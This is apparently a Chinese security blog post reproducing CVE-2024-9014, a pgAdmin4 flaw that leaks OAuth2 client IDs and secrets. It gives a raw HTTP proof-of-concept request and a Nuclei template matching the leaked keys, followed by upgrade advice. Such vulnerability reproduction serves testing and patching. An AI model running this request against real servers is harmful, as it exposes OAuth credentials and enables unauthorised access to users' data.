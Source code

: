 #  【漏洞复现】pgAdmin4 敏感信息泄露漏洞（CVE-2024-9014）   
紫色皓月  皓月的笔记本   2024-10-03 18:00  
  
声明：请勿将文章内的相关技术用于非法目的，如有相关非法行为与文章作者和本公众号无关。  
  
0X01   
简介  
  
pgAdmin4 是 PostgreSQL 的官方图形界面管理工具，为数据库管理员、开发者和分析师提供了一个直观的界面，以便于管理和维护 PostgreSQL 数据库。无论你是新手还是有经验的专家，pgAdmin4 都为你提供了丰富的功能来简化 PostgreSQL 的日常任务。  
  
CVE-2024-9014 pgAdmin 4 OAuth2 client ID与secret敏感信息泄漏漏洞。攻击者可构造恶意请求获取客户端ID和密钥，从而导致未经授权访问其他用户数据。  
  
  
漏洞编号：  
  
CVE-2024-9014  
  
  
影响范围：  
  
pgAdmin4 <= 8.11  
  
  
复现环境：  
  
pgAdmin4 8.10  
  
  
0X02   
漏洞复现  
  
POC：  
```
GET /login?next=/ HTTP/1.1
Host: 192.168.31.135:5050
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPLzHmW0WoHiaSNfrAWoyZtzFkTtuK9jeu2x0ZYUMnibM9OydZ8bQqzsz8Ww2ibdGFsbZUTru3o1RFZNQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
Nuclei：  
```
id: pgAdmin4-minganxinxixielou-CVE-2024-9014

info:
  name: pgAdmin4 敏感信息泄露漏洞 CVE-2024-9014
  author: 紫色皓月
  severity: high
  description: pgAdmin4 敏感信息泄露漏洞 CVE-2024-9014
  tags: CVE-2024-9014,pgAdmin4,2024,敏感信息泄露漏洞

requests:
  - raw:
    - |
      GET /login?next=/ HTTP/1.1
      Host: {{Hostname}}
      Cache-Control: max-age=0
      Upgrade-Insecure-Requests: 1
      User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
      Accept-Encoding: gzip, deflate, br
      Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
      Connection: keep-alive

    req-condition: true
    matchers:
      - type: word
        words:
          - 'OAUTH2_CLIENT_ID'
          - 'OAUTH2_CLIENT_SECRET'
        condition: and
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPLzHmW0WoHiaSNfrAWoyZtzF0JkB062FGDicibUHNvyrbWPhe8VxT2icXq9anaC3IyeiaHWjxF9uYNtt3A/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
0X03 修复建议  
  
升级至安全版本！  
  
  
0X04 写在最后  
  
回复“加群”，获取群号。  
  
侵删！  
  
  
